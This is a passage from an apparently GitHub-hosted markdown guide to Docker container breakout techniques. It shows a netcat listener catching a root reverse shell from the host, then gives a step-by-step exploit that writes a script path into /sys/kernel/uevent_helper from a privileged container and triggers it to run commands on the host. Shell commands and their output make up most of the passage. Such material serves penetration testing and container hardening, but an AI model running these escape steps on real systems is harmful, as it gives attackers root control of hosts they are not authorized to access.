 **Terminal 1**

```
# nc -lvlp 1337
listening on [any] 1337 ...

172.17.0.1: inverse host lookup failed: Unknown host
connect to [172.17.0.2] from (UNKNOWN) [172.17.0.1] 55010
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@linux-box:/#
```

A more detailed explanation can be found here [Docker Container Breakout: Abusing SYS_MODULE capability!](https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd) by [Nishant Sharma](https://linkedin.com/in/wifisecguy/).


### Linux kernel Filesystem `/sys`

The Linux kernel offers access over the filesystem `/sys` direct access to the kernel. In case you are root – what we are in a privileged container – you can trigger events that got consumed and processed by the kernel. One of the interfaces is the `uevent_helper` which is a callback that is triggered as soon a new device is plugged in the system. The plugin a new device can be simulated as well by the `/sys` filesystem.

An example to execute commands on the host system is as follows:

1. Create “callback”
2. Link “callback”
3. Trigger “callback”

```
# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

# cat << EOF > /trigger.sh
#!/bin/sh  
ps auxf > $host_path/output.txt
EOF

# chmod +x /trigger.sh 

# echo $host_path/trigger.sh > /sys/kernel/uevent_helper

# echo change > /sys/class/mem/null/uevent

# head /output.txt
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         2  0.0  0.0      0     0 ?        S    14:14   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        I    14:14   0:00  \_ [kworker/0:0]
root         4  0.0  0.0      0     0 ?        I<   14:14   0:00  \_ [kworker/0:0H]
root         5  0.0  0.0      0     0 ?        I    14:14   0:00  \_ [kworker/u4:0]
root         6  0.0  0.0      0     0 ?        I<   14:14   0:00  \_ [mm_percpu_wq]
root         7  0.0  0.0      0     0 ?        S    14:14   0:00  \_ [ksoftirqd/0]
root         8  0.0  0.0      0     0 ?        I    14:14   0:00  \_ [rcu_sched]
root         9  0.0  0.0      0     0 ?        I    14:14   0:00  \_ [rcu_bh]
root        10  0.0  0.0      0     0 ?        S    14:14   0:00  \_ [migration/0]
``` 
